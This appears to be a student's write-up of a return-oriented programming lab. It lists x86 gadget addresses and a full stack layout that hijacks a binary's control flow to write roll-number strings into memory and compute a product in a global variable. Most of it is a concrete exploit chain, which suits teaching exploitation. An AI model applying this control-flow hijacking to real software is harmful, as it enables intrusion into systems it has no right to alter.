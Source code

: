 # ROP

## Below are the gadgets used to solve the problem

Gadgets we have used :

1) To fill values in registers
    (a) eax -  0x080b8376 : pop eax ; ret
    (b) ecx -  0x080dec61 : pop ecx ; ret
    (c) edx -  0x0805bf42 : pop edx ; ret
    (d) edi -  0x08048480 : pop edi ; ret
    (e) esi -  0x08048433 : pop esi ; ret
    
2) To write into an address :
    --> First fill eax and edx appropriately, then use 
    (a) 0x08065a43 : mov word ptr [edx], ax ; mov eax, edx ; ret     
    (b) 0x08054bfb : mov dword ptr [edx], eax ; ret
    
3) For multiplication :
    --> First fill ecx with correct address,make sure eax has correct value, then use
    0x08063258 : imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret
    
4) To store eax in a register, and then retrieve that value. ( We had to use eax for both mutiplication and store into address)
    --> Store in ebx, then load from ebx again. 
    0x080d64bb : push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret 
    0x0804f44a : mov eax, ebx ; pop ebx ; ret







We have to fill the stack like this: with (ra) to main at top.


0x08048983   (ra) to main\ 
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00003332   (32 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea07e   (rollnumber2+6 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00004230   (B0 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea07c   (rollnumber2+4 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00003138   (18 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea07a   (rollnumber2+2 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00003536   (56 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea06e   (rollnumber1+6 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00004230   (B0 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea06c   (rollnumber1+4 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00003138   (18 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea06a   (rollnumber1+2 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\

0x08054bfb   (ra) corresponds to mov dword ptr [edx], eax ; ret glb = 720\
0x080eba20   (address of glb)\
0x0805bf42   (ra) corresponds to pop edx;ret edx = glb\
0x00000000   (random value on top of stack)\
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 720\
0x00000000   (random value on top of stack)\
0x0804f44a   (ra) corresponds to mov eax, ebx ; pop ebx ; ret  #eax = 360\
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 2\
0x080eba20   (address of glb)\
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb \
0x00000002   (2 on top stack) \
0x080b8376   (ra) corresponds to pop eax;ret # eax= 2 \
0x080eba20   (address of glb)\
0x080dec61   (ra) corresponds to pop ecx;ret #ecx = &glb\
0x080d64bb   (ra) corresponds to push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret ebx = 360\
0x00000000   (random value on top of stack)\
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 360\
0x00000000   (random value on top of stack)\
0x0804f44a   (ra) corresponds to mov eax, ebx ; pop ebx ; ret  #eax = 120\
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 3\
0x080eba20   (address of glb)\
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb\
0x00000003   (3 on top stack)\
0x080b8376   (ra) corresponds to pop eax;ret # eax= 3\
0x080eba20   (address of glb)\
0x080dec61   (ra) corresponds to pop ecx;ret #ecx = &glb\
0x080d64bb   (ra) corresponds to push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret ebx = 120\
0x00000000   (random value on top of stack)\
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 120\
0x00000000   (random value on top of stack)\
0x0804f44a   (ra) corresponds to mov eax, ebx ; pop ebx ; ret  #eax = 30\
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 4\
0x080eba20   (address of glb)\
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb\
0x00000004   (4 on top stack)\
0x080b8376   (ra) corresponds to pop eax;ret # eax= 4\
0x080eba20   (address of glb)\
0x080dec61   (ra) corresponds to pop ecx;ret #ecx = &glb\
0x080d64bb   (ra) corresponds to push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret ebx = 30\
0x00000000   (random value on top of stack)\
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 30\
0x00000006   (6 on top of stack)\
0x080b8376   (ra) corresponds to #pop eax;ret    eax = 6\
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 5 \
0x080eba20   (address of glb on top of stack)\
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb\
0x00000005   (5 on top of stack)\
0x080b8376   (ra) corresponds to #pop eax ; ret \
0x080eba20   (address of glb)\
0x080dec61   (ra) corresponds to  # pop ecx;ret  // ecx = &glb\
0xffffd000   (some acccessible stack address)\
0x08048480   (ra) corresponds to  pop edi;ret\
0xffffd05e   (some acccessible stack address)\
0x08048433   (ra) corresponds to pop esi ; ret















